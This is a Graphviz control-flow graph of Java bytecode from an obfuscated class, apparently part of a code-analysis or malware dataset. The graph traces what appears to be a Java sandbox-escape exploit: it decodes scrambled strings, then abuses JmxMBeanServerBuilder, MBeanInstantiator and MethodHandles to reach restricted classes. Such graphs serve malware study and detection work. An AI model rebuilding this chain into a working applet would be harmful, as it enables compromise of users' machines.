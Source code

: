 digraph "" {
    "r0 := @this: vqd"
    "load.r r0"
    "r0 := @this: vqd"->"load.r r0";
    "push \"\u007f0j3m/o?u\""
    "load.r r0"->"push \"\u007f0j3m/o?u\"";
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"
    "push \"\u007f0j3m/o?u\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "push \"t6|+p-|+d0;<5;t\""
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"push \"t6|+p-|+d0;<5;t\"";
    "push \"t6|+p-|+d0;<5;t\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "store.r r8"
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"store.r r8";
    "virtualinvoke <vqd: java.lang.String getParameter(java.lang.String)>"
    "store.r r8"->"virtualinvoke <vqd: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <vqd: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "load.r r8"
    "store.r r9"->"load.r r8";
    "load.r r9"
    "load.r r8"->"load.r r9";
    "staticinvoke <vqd: java.lang.String k(java.lang.String,java.lang.String)>"
    "load.r r9"->"staticinvoke <vqd: java.lang.String k(java.lang.String,java.lang.String)>";
    "push \"P\""
    "staticinvoke <vqd: java.lang.String k(java.lang.String,java.lang.String)>"->"push \"P\"";
    "push \"P\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"load.r r0";
    "staticget <vqd: java.lang.String C>"
    "load.r r0"->"staticget <vqd: java.lang.String C>";
    "virtualinvoke <vqd: byte[] k(java.lang.String)>"
    "staticget <vqd: java.lang.String C>"->"virtualinvoke <vqd: byte[] k(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <vqd: byte[] k(java.lang.String)>"->"store.r r0";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r0"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"a.w!z&}-w?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"a.w!z&}-w?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\"";
    "push \"a.w!z&}-w?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "pop"
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"pop";
    "push \"\""
    "pop"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "push \">d:a/t\\\"u(}-w?f>J5c,w!z*p/z0j=d9M v!z&}\ru>d=f7b z\\\"{&R-{<h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""
    "checkcast"->"push \">d:a/t\\\"u(}-w?f>J5c,w!z*p/z0j=d9M v!z&}\ru>d=f7b z\\\"{&R-{<h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\"";
    "push \">d:a/t\\\"u(}-w?f>J5c,w!z*p/z0j=d9M v!z&}\ru>d=f7b z\\\"{&R-{<h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"pop";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "pop"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"dup1.r";
    "dup1.r"->"push \"a.w!z&}-w?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\"";
    "push \"a.w!z&}-w?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"pop";
    "pop"->"push null";
    "staticinvoke <zin: java.lang.Class J(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <zin: java.lang.Class J(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>";
    "store.r r7"
    "staticinvoke <zin: java.lang.Class J(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"->"store.r r7";
    "store.r r7"->"push null";
    "staticinvoke <zin: java.lang.Class k(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <zin: java.lang.Class k(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>";
    "staticinvoke <zin: java.lang.Class k(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"->"store.r r8";
    "store.r r8"->"load.r r8";
    "staticinvoke <zin: java.lang.invoke.MethodHandles$Lookup k()>"
    "load.r r8"->"staticinvoke <zin: java.lang.invoke.MethodHandles$Lookup k()>";
    "staticinvoke <zin: java.lang.invoke.MethodHandles$Lookup k()>"->"store.r r9";
    "store.r r9"->"load.r r9";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "load.r r9"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push 1"
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "push \"t#z&}!z0j=f7b z\\\"{&}!w?h0e;a/t/z*p\\\"{<g>h:m\\\"w#y%~/z0j=d9b,z\\\"u(}#y?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"push \"t#z&}!z0j=f7b z\\\"{&}!w?h0e;a/t/z*p\\\"{<g>h:m\\\"w#y%~/z0j=d9b,z\\\"u(}#y?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\"";
    "push \"t#z&}!z0j=f7b z\\\"{&}!w?h0e;a/t/z*p\\\"{<g>h:m\\\"w#y%~/z0j=d9b,z\\\"u(}#y?h0e;a\u0000x#y%~\\\"u2j=j7b.t\ru$~\\\"y?h0e;a\u0000x#y%~/z0j=d9M v!z&}-w?f>J5c,w!z$~\ru>d=f:c,X-{&}!z0j=d9M\u001cI\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"pop";
    "staticinvoke <flo: java.lang.invoke.MethodHandle J(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"
    "pop"->"staticinvoke <flo: java.lang.invoke.MethodHandle J(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <flo: java.lang.invoke.MethodHandle J(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r12"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r12";
    "push 3"
    "store.r r12"->"push 3";
    "push 3"->"newarray";
    "store.r r14"
    "newarray"->"store.r r14";
    "load.r r14"
    "store.r r14"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 1";
    "load.r r7"
    "push 1"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "push 2"
    "load.r r14"->"push 2";
    "load.r r12"
    "push 2"->"load.r r12";
    "load.r r12"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r14"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r14";
    "store.r r14"->"load.r r9";
    "staticinvoke <flo: java.lang.invoke.MethodType J()>"
    "load.r r9"->"staticinvoke <flo: java.lang.invoke.MethodType J()>";
    "staticinvoke <flo: java.lang.invoke.MethodHandle k(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"
    "staticinvoke <flo: java.lang.invoke.MethodType J()>"->"staticinvoke <flo: java.lang.invoke.MethodHandle k(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>";
    "staticinvoke <flo: java.lang.invoke.MethodHandle k(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"->"store.r r12";
    "staticinvoke <flo: java.lang.invoke.MethodType k(java.lang.Class)>"
    "store.r r12"->"staticinvoke <flo: java.lang.invoke.MethodType k(java.lang.Class)>";
    "store.r r17"
    "staticinvoke <flo: java.lang.invoke.MethodType k(java.lang.Class)>"->"store.r r17";
    "push 4"
    "store.r r17"->"push 4";
    "push 4"->"newarray";
    "store.r $r34"
    "newarray"->"store.r $r34";
    "load.r $r34"
    "store.r $r34"->"load.r $r34";
    "load.r $r34"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 1";
    "push 1"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 2";
    "push \"f:u$i\'Y)|+s\u0016m<a-b\""
    "push 2"->"push \"f:u$i\'Y)|+s\u0016m<a-b\"";
    "push \"f:u$i\'Y)|+s\u0016m<a-b\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 3";
    "load.r r17"
    "push 3"->"load.r r17";
    "load.r r17"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "load.r r12"->"load.r $r34";
    "load.r $r34"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r7";
    "load.r r7"->"push 0";
    "push 0"->"load.r r14";
    "load.r r14"->"arraywrite.r";
    "arraywrite.r"->"load.r r7";
    "load.r r7"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r7";
    "staticinvoke <flo: java.lang.invoke.MethodType k()>"
    "store.r r7"->"staticinvoke <flo: java.lang.invoke.MethodType k()>";
    "staticinvoke <flo: java.lang.invoke.MethodType k()>"->"store.r r14";
    "store.r r14"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r17";
    "store.r r17"->"load.r r17";
    "load.r r17"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r17";
    "load.r r17"->"push 1";
    "push 1"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "arraywrite.r"->"load.r r17";
    "load.r r17"->"push 2";
    "push \"~ {1n?A1d;c\""
    "push 2"->"push \"~ {1n?A1d;c\"";
    "push \"~ {1n?A1d;c\""->"staticinvoke <flo: java.lang.String J(java.lang.String)>";
    "staticinvoke <flo: java.lang.String J(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r17";
    "load.r r17"->"push 3";
    "push 3"->"load.r r14";
    "load.r r14"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "load.r r12"->"load.r r17";
    "load.r r17"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r8";
    "store.r r8"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 2";
    "push 2"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "staticinvoke <flo: java.lang.String J(java.lang.Class)>"
    "checkcast"->"staticinvoke <flo: java.lang.String J(java.lang.Class)>";
    "staticinvoke <flo: java.lang.String J(java.lang.Class)>"->"pop";
    "staticinvoke <zin: void k(java.lang.String[])>"
    "pop"->"staticinvoke <zin: void k(java.lang.String[])>";
    "goto return"
    "staticinvoke <zin: void k(java.lang.String[])>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <zin: void k(java.lang.String[])>"->"store.r r0";
}
